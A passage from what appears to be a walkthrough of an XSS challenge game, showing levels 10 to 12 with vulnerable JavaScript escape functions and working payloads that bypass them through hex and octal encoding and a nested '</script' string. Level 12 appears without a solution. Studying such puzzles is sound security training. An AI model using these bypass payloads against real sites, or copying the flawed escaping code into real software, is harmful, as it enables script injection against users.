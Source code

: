 ```lang-javascript line-numbers 
         });
  }

  return expandTemplate(
    "                                                \n\
      <h2>Hello, <span id=name></span>!</h2>         \n\
      <script>                                       \n\
         var v = document.getElementById('name');    \n\
         v.innerHTML = '<a href=#>{name}</a>';       \n\
      <\/script>                                     \n\
    ",
    { name : s }
  );
}
```

Injection takes place in a JS string context and since "\" is not escaped in the htmlEscape function, we can use hex or octal encoding for the "<" symbol and bypass the escaping function.

Valid solutions:
```lang-javascript line-numbers 
\x3csvg onload=alert(1)
```

```lang-javascript line-numbers 
\74svg onload=alert(1)
```

# Level 11:
```lang-javascript line-numbers 
function escape(s) {
  // Spoiler for level 2
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

I've seen similar escaping functions in real applications, normally it is not a good idea to fix the input data, you either accept it or reject it but trying to fix it normally leads to bypasses. In this case the escape function replaces "&lt;/script" with an empty string so shortest solution is:

```lang-javascript line-numbers 
</</scriptscript><script>alert(1)//
```

# Level 12:
```lang-javascript line-numbers 
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/\//g, '\\/');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```
